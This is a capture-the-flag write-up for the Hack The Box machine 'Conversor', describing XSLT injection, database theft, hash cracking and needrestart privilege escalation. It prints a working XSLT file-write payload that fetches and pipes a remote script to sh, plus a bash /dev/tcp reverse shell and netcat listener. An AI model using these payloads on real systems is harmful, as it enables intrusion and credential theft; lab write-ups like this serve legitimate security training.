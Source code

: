 ```yaml
---

# Conversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)

---
```


## Quick overview

A new Linux machine (easy) that presented the following path:

1. **XSLT exploitation** → Database access → **USER.TXT**
2. **Needrestart 3.7 privilege escalation** → [CVE-2024-48990 automatic exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### Nmap enumeration

As usual, we start with an `nmap` scan, which shows the classic ports 22 and 80.

![Icon](Images/nmapscan.png)

We opened the Conversor web page and quickly noticed XML conversion via XSLT. The **About** page hinted that the source is discoverable.

From the source code we found several useful details:

1. The XSLT is exploitable.
2. Python scripts can be executed from the **scripts** directory (this is mentioned in `install.md`).
3. The users database is stored in the **instance** directory.

### First step

We started by obtaining a reverse shell. Using the XSLT file we uploaded, we instructed the server to write a Python script to `/var/www/conversor.htb/scripts/shell.py`, which then uses `curl` to fetch a reverse-shell script from our machine.

Upload the following XSLT file:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

On our machine we started a simple HTTP server with `python3 -m http.server` to host the reverse-shell script:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

Then we ran a netcat listener: `nc -nlvp 9999`.

This gave us initial access, as shown below:

![Icon](Images/xsltrevshell.png)

### Database download

Next, we copied the SQLite database from the target to our machine so we could analyze it safely. We launched a Python HTTP server on the victim to serve the DB and downloaded it locally:

![Icon](Images/dbdownload.png)

I opened the DB with `sqlitebrowser` and found the user **fismathack** with a hashed password:

![Icon](Images/sqlitebrowser.png)

### Final step 

After cracking the hash with [CrackStation](https://crackstation.net) we could log in as **fismathack** over SSH and capture the `USER.TXT` flag.

![Icon](Images/usertxt.png)

---

## ROOT.TXT

### Discovery

We ran `sudo -l` and discovered we could run `needrestart 3.7` with sudo privileges.

![Icon](Images/sudol.png)

### Exploit

A quick research showed that `needrestart 3.7` is vulnerable (CVE-2024-48990). I used the following PoC: [CVE-2024-48990-Automatic-Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit).

> Note: If the exploit doesn't work, reset the machine on HTB and try again.

The exploit grants a root shell, allowing us to read `ROOT.TXT`:

![Icon](Images/privescal.png)

As you can see, the exploit provided a root shell and we captured the `ROOT.TXT` flag.

![Icon](Images/roottxt.png)

---













